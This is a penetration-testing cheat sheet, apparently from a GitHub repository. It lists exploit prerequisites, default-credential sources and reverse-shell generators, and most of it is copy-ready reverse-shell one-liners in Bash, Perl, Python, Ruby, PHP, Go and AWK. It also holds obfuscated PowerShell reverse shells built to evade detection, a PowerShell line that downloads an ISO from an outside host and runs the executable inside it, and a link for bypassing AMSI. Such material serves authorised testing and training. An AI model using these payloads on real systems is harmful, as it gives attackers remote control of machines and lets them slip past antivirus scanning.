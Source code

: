 ## Pre-requisites for runninging exploits

- Check the version of the operating system.
- Check the software version.
- Check if there is exploit for it (Searchsploit, ExploitDB, Google, etc).
- If you have an exploit, is there a Metasploit Module for it?


## Default Credentials

- https://cirt.net/passwords
- https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials

## Reverse Shells

## Online Reverse Shell Generators:
- https://www.revshells.com/
- https://shellgenerator.github.io/

## Hosting Revshells Locally: 
1. git clone https://github.com/0dayCTF/reverse-shell-generator
2. docker build -t reverse_shell_generator .
3. docker run -d -p 80:80 reverse_shell_generator

## Other Reverse Shell:

Bash: 

- bash -i >& /dev/tcp/IP ADDRESS/8080 0>&1

Perl:

```
perl -e 'use Socket;$i="IP ADDRESS";$p=PORT;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Python: 

- python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP ADDRESS",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

IPv6: 

- python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4343,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");' 

Ruby:

- ruby -rsocket -e'f=TCPSocket.open("IP ADDRESS",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
- ruby -rsocket -e 'exit if fork;c=TCPSocket.new("[IPADDR]","[PORT]");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'


PHP:

Pentest Monkey Reverse Shell for PHP:
In Kali: 

/usr/share/webshells/php/php-reverse-shell.php

Link: http://pentestmonkey.net/tools/web-shells/php-reverse-shell

- php -r '$sock=fsockopen("IP ADDRESS",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

Windows Powershell Oneliner: 

Note: To change the IP Address replace the number values in Check.for.Callback.Connection. To change the port pick your own numeric values to equal the number you want your shell to callback to you. 

```
# Offsec-callback-v2
$ezYSZf = & ((Get-Command "New-ScheduledJobOption").name[0,1,2,3,14,15,13,1,5,18] -join '') ([string]::join('', ( (83,121,115,116,101,109,46,78,101,116,46,83,111,99,107,101,116,115,46,84,67,80,67,108,105,101,110,116) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})("Check.for.Callback.Connection".Replace("Check",127).Replace("For",0+255-255).Replace("Callback", 0+234-234).Replace("Connection",0+0+0+1),(443*2-443));
$VXm = $ezYSZf.GetStream();
# checkin to target
[byte[]]$0bLXRjHKPvWQUhq = (10023-10023)..(13107*5)|<##>%{$_}<##>|%{0};
while(($i = $VXm.Read($0bLXRjHKPvWQUhq, 0, $0bLXRjHKPvWQUhq.Length)) -ne 0)
{;
$Tc9dYRLI5 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($0bLXRjHKPvWQUhq,0, $i);
$sendback = (iex $Tc9dYRLI5 2>&1 |<##>%{$_}<##>| Out-String );
# AND
$YzlnHIRT = $sendback + $(([string]::join('', ( (80,83,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})) + (pwd).Path + $(([string]::join('', ( (62,62,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_}));
$sdfghjklASDA222 = ([text.encoding]::ASCII).GetBytes($YzlnHIRT);
$VXm.Write($sdfghjklASDA222,0,$sdfghjklASDA222.Length);$VXm.Flush()
};
Start-Sleep -Seconds 5
# checkout of target
$ezYSZf.Close()
```

Powershell ISO Oneliner:
```
powershell -c "(New-Object System.Net.WebClient).DownloadFile('https://172.21.1.0/windows.iso', 'C:\Windows\Tasks\windows.iso'); $MountedImage = Mount-DiskImage -ImagePath 'C:\Windows\Tasks\windows.iso' -PassThru; Start-Process -FilePath ($MountedImage | Get-Volume).DriveLetter + ':\msupdate.exe'; dismount-DiskImage -ImagePath $MountedImage.ImagePath"
```

Linux Powershell Oneliner:

```
$ezYSZf = & (("New-ScheduledJobOption")[0,1,2,3,14,15,13,1,5,18] -join '') ([string]::join('', ( (83,121,115,116,101,109,46,78,101,116,46,83,111,99,107,101,116,115,46,84,67,80,67,108,105,101,110,116) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})("Stay.Off.Ronins.Lawn".Replace("Stay",127).Replace("Off",0+255-255).Replace("Ronins", 0+1-1).Replace("Lawn",0+0+0+1),(443*2-443));
$VXm = $ezYSZf.GetStream();
[byte[]]$0bLXRjHKPvWQUhq = (10023-10023)..(13107*5)|<##>%{$_}<##>|%{0};
while(($i = $VXm.Read($0bLXRjHKPvWQUhq, 0, $0bLXRjHKPvWQUhq.Length)) -ne 0)
{;
$Tc9dYRLI5 = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($0bLXRjHKPvWQUhq,0, $i);
$sendback = (iex $Tc9dYRLI5 2>&1 |<##>%{$_}<##>| Out-String );
$YzlnHIRT = $sendback + $(([string]::join('', ( (80,83,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_})) + (pwd).Path + $(([string]::join('', ( (62,62,32) |<##>%{$_}<##>|%{ ( [char][int] $_)})) |<##>%{$_}<##>| % {$_}));
$sdfghjklASDA222 = ([text.encoding]::ASCII).GetBytes($YzlnHIRT);
$VXm.Write($sdfghjklASDA222,0,$sdfghjklASDA222.Length);$VXm.Flush()
};
$ezYSZf.Close()
```

Golang: 

- echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","IP ADDRESS:8080");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go

AWK: 

- awk 'BEGIN {s = "/inet/tcp/0/IP ADDRESS/4242"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null


Other Reverse Shell: 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md


## Other Resources 

- Amsi-Bypass-Powershell: https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell 





